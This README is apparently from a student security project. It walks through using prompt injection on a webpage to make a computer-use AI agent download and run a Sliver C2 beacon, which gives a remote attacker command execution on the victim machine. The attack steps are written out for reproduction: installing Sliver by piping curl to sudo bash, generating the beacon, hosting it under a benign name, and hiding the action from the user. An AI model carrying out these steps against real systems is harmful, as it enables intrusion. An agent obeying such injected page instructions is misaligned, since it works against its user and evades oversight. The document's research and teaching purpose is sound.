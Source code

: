 # Attack Vector

Extending LLM applications to allow clicking and bash commands opens entirely new avenues of attack for prompt injection. The following instructions outline how LLM computer use can be used to activate attacks that traditionally required some form of social engineering by bypassing the human user while the AI agent is processing a request.

To realise the absurd risk, this demo will allow a remote computer to exicute commands on a victim's machine by using standard promt-injection style attacks combined with a download link (during a plausable user request) to run code on the machine.

### Description of the code:
- Based on the attack vectors explored by the other teammates, the simplest way to achive this attack is through a standard link-initialized phishing attack. Any request that is suseptable to the demonstrated "click-link" attack vector can be made vulnerable to this attack.
- Some light prompt injection before the download link was required to hide the action from the user.

# Reproduction Process:

> [!CAUTION]
> The following procedure invovles open-source "red team" code. Proceed at your own risk.

To begin the process, you will need an apache2 server running at an accessable location.

1. In a quarantined linux enviroment run the following command: `curl https://sliver.sh/install|sudo bash`
2. run `sliver`
3. sliver > `sessions` will list all current sessions. Currently, this list should be empty.

![screenshot](SS!_Sliver_start.png)

4. Start up the "victim" machine and start an appication that implements functions using Anthropic's computer use API. In this project, we used a docker enviroment and the demo computer use app provided by Anthropic. The instructions for starting this enviroment can be found in the [main README](https://github.com/zkoenigxd/llm-security/blob/main/README.md).
5. sliver > `generate beacon --mtls **YOUR_SERVER_LOCATION** --os linux` will create an exicutable that will subscribe the victim to the C2 server when the file is downloaded and run.
    - Note: If running both processes on a VM, you will need to attach the VM network adapter to the "Bridged Adapter" to allow accesses between systems (the default setting in Virtual Box only allow the host machine to connect).
    - You can retrive **YOUR_SERVER_LOCATION** with `ip a`.
    - This can be used against any system type by changing the os flag, refernce the [Sliver documentation](https://sliver.sh/) for further usage instructions.
6. This file must then be hosted on a webpage, accessable by a download link.
    - Note: The computer-use "agent" will be more responsive to webpages and files with benign names.
7. Direct the AI to go to the page to download and run the file.
    - An [example page](https://github.com/zkoenigxd/llm-security/blob/main/scenarios/zach_remote_access/sampleAttack.html) which closely mimics the language used in my own testing can be found in the current directory.
    - As mentioned, propting the model to achive this behavior is exlored in other tests.
    - Depending on the enviroment, the bash command may time out (python may need to be downloaded and the computer use system times out bash commands after 120 sec).
        - For demo or lab purposes, it may serve to manually download some dependencies before testing the attack with the AI tool.
        - This attack may perform better or worse depending on the performance of the victim platform.
    - Note: Given the limited capabilities of the current generation of computer use, this attack often fails to succeed without additional user input. It may:
        - Question directions to poorly known webpages
        - Open an app that is not a web browser
        - Fail to click the search bar
        - Miss-click the "Download" button or link (depending on your implementation)
        - Time out when running the bash command if the internet is slow
    - Despite the above limitations, it is often able to quickly and without prompting the user download, apply execute permissions, and run the script assuming the link can be asertained.
8. Proof of attack success can be verified with the command sliver > `beacons`
    - The info should display the name of the .exe used for the capture and the user name (by default, this demo's name is "computeruse")
9. Run any command on the victim machine (usage can be found in the [Sliver documentation](https://sliver.sh/) or by running sliver > `help`)

![screenshot](SS10_Captured_computer.png)

# Presenatation notes:
### My contribution to the group project:
- Set up the git and project environment.
- Walked the team through running the project and ensured each member had the base project running
- Read and researched the Anthropic computer use documentation and shared the results with the team.
    - Researched AI tool use
    - Researched currently available computer-use apps
    - Discovered attack vectors based on the API's limitations and inherit vulnerabilities.
- Demoed the Command-and-Control attack vector.
    - Researched C2 applications and vectors
    - Determined viable webpage prompts
    - Determined plausible user requests that would result in starting the attack chain


### Code and demonstration of results:
- The small bit of code needed and the description of the process can be found in the current folder and above in this file.

### What was learned:
- Vulnerabilities in AI Tool Integration
    - Integrating LLMs with APIs or systems like the Anthropic computer use API opens potential security vulnerabilities, emphasizing the need for robust safeguards.
- Limitations of Current AI Implementations
    - While AI agents can perform advanced tasks, they also exhibit limitations such as misinterpreting commands, failing to execute specific tasks, or timing out, which can cause problems even before introducing malicious actors.
- Importance of Context-Aware Security Measures
    - Crafting plausible attack scenarios highlighted how subtle prompt manipulation combined with system flaws could bypass human oversight and create significant risks.

### How it applies to Computer Systems Security:
- As AI agents are given more power over consumer machines, we'll need to estabish new paradigms of security. Understanding and compiling large datasets of known malicous codes and attack methods will be necessary to attempt to "teach" LLMs to mitigate risk.

### Application areas: 
- Any AI tools requesting input permissions.

### Challenges and Lessons Learned
1. Installing and running docker
    - With no prior experience with docker and having just learned the fundamentals of VMs, getting the enviroment set up in a safe way was a major hurtle.
    - It was discovered that running docker on a VM required some special configuartions be made on the host machine, and the performance proved atrocious.
    - After researching the technology, it was discovered that docker enviroments provided adiquite security on the host device for the tests we intended to run.
    - Lesson - always, ALWAYS read the docs of any unfamiliar technology.
2. Inconsistant outputs
    - The computer use application loop introduces several opportunities for hillucinations which makes getting the desired output out of the LLM incredibly difficult, regardless if the intent is malicous or not.